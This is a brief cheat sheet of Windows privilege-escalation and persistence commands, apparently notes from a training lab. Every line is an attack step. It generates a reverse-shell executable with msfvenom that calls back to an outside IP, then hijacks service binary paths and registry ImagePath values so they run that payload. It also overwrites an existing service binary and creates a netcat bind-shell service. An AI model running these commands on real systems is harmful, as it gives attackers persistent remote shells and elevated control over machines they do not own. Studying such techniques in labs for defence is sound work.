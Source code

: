 ## Service used as persistence 
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.2.45.46 LPORT=53 -f exe -o reverse.exe
sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
net start daclsvc
## Overwrite known good service 
accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
## Replace binary of service 
copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y 

## New Service 
sc \\windows10 create netcat binpath= "cmd.exe /k C:\tools\nc.exe -l -p 8081 -e cmd.exe"
